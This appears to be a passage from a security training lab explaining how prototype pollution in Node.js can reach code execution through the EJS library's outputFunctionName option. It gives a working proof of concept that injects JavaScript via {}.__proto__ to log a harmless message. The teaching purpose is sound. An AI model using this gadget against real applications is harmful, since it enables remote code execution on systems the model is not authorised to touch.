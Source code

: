 > Listing 61 - Template Class compile Function

The _compile_ function in the _Template_ class is relatively small and we quickly discover a vector for prototype pollution. On line 589, the code checks if the _outputFunctionName_ variable within the _opts_ object exists. If the variable does exist, the variable is added to the content.

A quick search through the code finds that this variable is only set by a developer using the EJS library. The documentation states that this variable is:

Set to a string (e.g., 'echo' or 'print') for a function to print output inside scriptlet tags.

In practice, it can be used as follows:

```
student@chips:~$ docker-compose -f ~/chips/docker-compose.yml exec chips node --inspect=0.0.0.0:9228
Debugger listening on ws://0.0.0.0:9228/c49bd34c-5a89-4f31-af27-388bc99daebe
For help, see: https://nodejs.org/en/docs/inspector
Welcome to Node.js v14.16.0.
Type ".help" for more information.
> ejs  = require("ejs")

> ejs.render("hello <% echo('world'); %>", {}, {outputFunctionName: 'echo'});
'hello world'
```

> Listing 62 - outputFunctionname in EJS

The _outputFunctionName_ is typically not set in templates. Because of this, we can most likely use it to inject with prototype pollution.

Let's examine the string that we would be injecting into on line 590 of node_modules/ejs/lib/ejs.js.

```
 'var ' + opts.outputFunctionName + ' = __append;'
```

> Listing 63 - Location of Potential Injection

For this to work, our payload will need to complete the variable declaration on the left side, add the code we want to run in the middle, and complete the variable declaration on the right side. If our payload makes the function invalid, EJS will crash when the page is rendered.

```
 var x = 1; WHATEVER_JSCODE_WE_WANT ; y = __append;'
```

> Listing 64 - RCE Injection POC

The highlighted portion in Listing 64 shows what our payload may be. Let's use the interactive CLI to attempt to log something to the console.

```
> ejs  = require("ejs")
...
> ejs.render("Hello, <%= foo %>", {"foo":"world"})
'Hello, world'

> {}.__proto__.outputFunctionName = "x = 1; console.log('haxhaxhax') ; y"
"x = 1; console.log('haxhaxhax') ; y"

> ejs.render("Hello, <%= foo %>", {"foo":"world"})
haxhaxhax
'Hello, world'
```
